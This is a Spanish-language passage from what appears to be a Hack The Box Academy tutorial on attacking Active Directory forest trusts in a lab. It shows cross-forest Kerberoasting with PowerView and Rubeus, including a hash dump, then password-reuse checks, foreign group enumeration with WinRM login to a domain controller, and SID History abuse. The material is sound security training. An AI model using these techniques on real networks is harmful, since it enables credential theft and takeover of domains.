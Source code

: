 ## Cross-Forest Kerberoasting

Kerberos attacks como Kerberoasting y ASREPRoasting pueden llevarse a cabo a través de trusts, dependiendo de la dirección del trust. En una situación donde estás posicionado en un domain con un inbound o bidirectional domain/forest trust, es probable que puedas realizar varios ataques para obtener un punto de apoyo. A veces no puedes escalar privilegios en tu domain actual, pero en su lugar puedes obtener un Kerberos ticket y crackear un hash para un usuario administrativo en otro domain que tiene Domain/Enterprise Admin privileges en ambos domains.

Podemos utilizar PowerView para enumerar cuentas en un domain objetivo que tienen SPNs asociados con ellas.

### Enumerating Accounts for Associated SPNs Using Get-DomainUser

```r
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

Vemos que hay una cuenta con un SPN en el domain objetivo. Una revisión rápida muestra que esta cuenta es miembro del grupo Domain Admins en el domain objetivo, por lo que si podemos Kerberoast it y crackear el hash offline, tendríamos derechos de administrador completos en el domain objetivo.

### Enumerating the mssqlsvc Account

```r
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

Vamos a realizar un ataque de Kerberoasting a través del trust usando `Rubeus`. Ejecutamos la herramienta como lo hicimos en la sección de Kerberoasting, pero incluimos el flag `/domain:` y especificamos el domain objetivo.

### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```r
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

Luego podríamos ejecutar el hash a través de Hashcat. Si se crackea, hemos ampliado rápidamente nuestro acceso para controlar completamente dos domains al aprovechar un ataque bastante estándar y abusar de la dirección de autenticación y configuración del bidirectional forest trust.

---

## Admin Password Re-Use & Group Membership

De vez en cuando, encontraremos una situación donde hay un bidirectional forest trust gestionado por administradores de la misma empresa. Si podemos tomar el control del Domain A y obtener contraseñas en claro o NT hashes para la cuenta de Administrator incorporada (o una cuenta que sea parte del grupo Enterprise Admins o Domain Admins en Domain A), y Domain B tiene una cuenta altamente privilegiada con el mismo nombre, entonces vale la pena verificar la reutilización de contraseñas en los dos forests. Ocasionalmente, me encontré con problemas donde, por ejemplo, Domain A tenía un usuario llamado `adm_bob.smith` en el grupo Domain Admins, y Domain B tenía un usuario llamado `bsmith_admin`. A veces, el usuario usaría la misma contraseña en los dos domains, y tomar el control de Domain A instantáneamente me daba derechos de administrador completos en Domain B.

También podemos ver usuarios o administradores de Domain A como miembros de un grupo en Domain B. Solo `Domain Local Groups` permiten security principals de fuera de su forest. Podemos ver a un Domain Admin o Enterprise Admin de Domain A como miembro del grupo Administrators incorporado en Domain B en una relación de bidirectional forest trust. Si podemos tomar el control de este usuario administrador en Domain A, ganaríamos acceso administrativo completo a Domain B basado en la membresía del grupo.

Podemos usar la función de PowerView [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember) para enumerar grupos con usuarios que no pertenecen al domain, también conocido como `foreign group membership`. Probemos esto contra el domain `FREIGHTLOGISTICS.LOCAL` con el que tenemos un external bidirectional forest trust.

### Using Get-DomainForeignGroupMember

```r
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

El output del comando anterior muestra que el grupo Administrators incorporado en `FREIGHTLOGISTICS.LOCAL` tiene la cuenta de Administrator incorporada para el domain `INLANEFREIGHT.LOCAL` como miembro. Podemos verificar este acceso usando el cmdlet `Enter-PSSession` para conectarnos a través de WinRM.

### Accessing DC03 Using Enter-PSSession

```r
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

Del output del comando anterior, podemos ver que nos autenticamos exitosamente en el Domain Controller en el domain `FREIGHTLOGISTICS.LOCAL` usando la cuenta de Administrator del domain `INLANEFREIGHT.LOCAL` a través del bidirectional forest trust. Esto puede ser una victoria rápida después de tomar el control de un domain y siempre vale la pena verificarlo si hay una situación de bidirectional forest trust presente durante una evaluación y el segundo forest está en el scope.

---

## SID History Abuse - Cross Forest

SID History también puede ser abusado a través de un forest trust. Si un usuario es migrado de un forest a otro y SID Filtering no está habilitado, se vuelve posible agregar un SID del otro forest, y este SID se agregará al token del usuario al autenticarse a través del trust. Si el SID de una cuenta con privilegios administrativos en Forest A se agrega al atributo SID history de una cuenta en Forest B, asumiendo que pueden autenticarse a través del forest, entonces esta cuenta tendrá privilegios administrativos al acceder a recursos en el forest asociado. En el diagrama a continuación, podemos ver un ejemplo del usuario `jjones` siendo migrado del domain `INLANEFREIGHT.LOCAL` al domain `CORP.LOCAL` en un forest diferente. Si SID filtering no está habilitado cuando se realiza esta migración y el usuario tiene privilegios administrativos (o cualquier tipo de derechos interesantes como entradas ACE, acceso a shares, etc.) en el domain `INLANEFREIGHT.LOCAL`, entonces retendrán sus derechos/acceso administrativos en `INLANEFREIGHT.LOCAL` mientras son miembros del nuevo domain, `CORP.LOCAL` en el segundo forest.

![image](https://academy.hackthebox.com/storage/modules/143/sid-history.png)

Este ataque se cubrirá en profundidad en un módulo posterior que se enfocará más en atacar AD trusts.

---

## Onwards

A continuación, veremos algunos ejemplos de ataques a través de un forest trust desde un Linux attack host.
